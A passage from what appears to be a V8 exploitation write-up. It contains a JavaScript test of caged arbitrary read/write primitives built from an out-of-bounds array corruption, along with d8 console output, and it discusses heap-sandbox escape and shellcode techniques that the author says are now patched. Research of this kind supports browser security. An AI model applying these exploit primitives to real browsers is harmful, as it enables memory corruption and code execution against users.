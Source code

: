 
We verify that our primitive is working with this little test:

```js
test = [6.6, 7.7]

// trying to read test[0] by getting &test.elements
test_addr = addrof(test)
test_el_addr = caged_arb_read32(test_addr+8n)
test_0 = caged_arb_read64(test_el_addr+8n)
print(itof(test_0), "===", test[0])

// trying to modify test[0] and test[1] with our write primitive
print(hex(ftoi(test[0])))
print(hex(ftoi(test[1])))
caged_arb_write32(test_el_addr+8n, 0x13371337n)
caged_arb_write32(test_el_addr+8n+4n, 0x80088008n)
caged_arb_write64(test_el_addr+8n+8n, 0xdeadbeefcafebaben)
print(hex(ftoi(test[0])))
print(hex(ftoi(test[1])))
```

```console
$ ./d8 --allow-natives-syntax ./my-poc.js
[+] Corrupted oob_arr.length with 32768
6.6 === 6.6
0x401a666666666666
0x401ecccccccccccd
0x8008800813371337
0xdeadbeefcafebabe
```

## Escaping V8 Sandbox

When one is able to perform AAR/AAW outside the heap sandbox, it is usually
considered to have escaped the sandbox. One of the common method is through corrupting
`ArrayBuffer` `backing_store` which stores raw pointer instead of compressed
pointer. However, this is not possible anymore in the V8 version that we are
using.

The novel techniques usually involve using wasm to bypass the sandbox, however some of them have been patched:
- <https://anvbis.au/posts/exploring-historical-v8-heap-sandbox-escapes-i/>
- <https://blog.theori.io/a-deep-dive-into-v8-sandbox-escape-technique-used-in-in-the-wild-exploit-d5dcf30681d4>
- <https://medium.com/@numencyberlabs/use-wasm-to-bypass-latest-chrome-v8sbx-again-639c4c05b157>

I could not find any other way to get unconstrained AAR/AAW due to lack of
raw uncompressed pointer (skill issue probably).

## Getting Code Execution

Getting code execution using shellcode as immediate numbers (as mentioned in the
[starlabs blog](https://starlabs.sg/blog/2022/12-deconstructing-and-exploiting-cve-2020-6418/#stage-2-shellcode-with-immediate-numbers))
does not work anymore.
